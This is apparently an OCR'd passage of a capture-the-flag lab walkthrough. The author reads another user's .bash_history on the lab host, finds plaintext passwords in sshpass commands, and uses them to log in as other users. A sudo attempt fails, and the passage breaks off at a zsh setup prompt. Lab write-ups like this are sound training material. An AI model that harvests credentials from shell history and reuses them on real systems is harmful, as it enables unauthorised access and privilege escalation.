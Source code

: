 SHayslett@red:/home$ ls -la | grep JKanode
drwxr-xr-x  2 JKanode    JKanode    4096 Jun  5  2016 JKanode

Isn't that handy, I can get into their home directory....and well, everyone else's as well.

SHayslett@red:/home/JKanode$ more .bash_history
id
whoami
ls -lah
pwd
ps aux
sshpass -p thisimypassword ssh JKanode@localhost
apt-get install sshpass
sshpass -p JZQuyIN5 peter@localhost
ps -ef
top
kill -9 3747
exit

Well...isn't that convent.

JKanode@192.168.118.184's password:
Welcome back!

JKanode@red:~$ sudo su

We trust you have received the usual lecture from the local System
Administrator. It usually boils down to these three things:

    #1) Respect the privacy of others.
    #2) Think before you type.
    #3) With great power comes great responsibility.

[sudo] password for JKanode:
JKanode is not in the sudoers file.  This incident will be reported.

Worth a try :) at least we know that is the right password.  Might as well check peter as well.

peter@192.168.118.184's password:
Welcome back!
This is the Z Shell configuration function for new users,
zsh-newuser-install.
You are seeing this message because you have no zsh startup files
(the files .zshenv, .zprofile, .zshrc, .zlogin in the directory
~).  This function can help you with a few settings that should
make your use of the shell easier.

You can:

(q)  Quit and do nothing.  The function will be run again next time.

(0)  Exit, creating the file ~/.zshrc containing just a comment.
     That will prevent this function being run again.

(1)  Continue to the main menu.

(2)  Populate your ~/.zshrc with the configuration recommended
     by the system administrator and exit (you will need to edit
     the file by hand, if so desired).
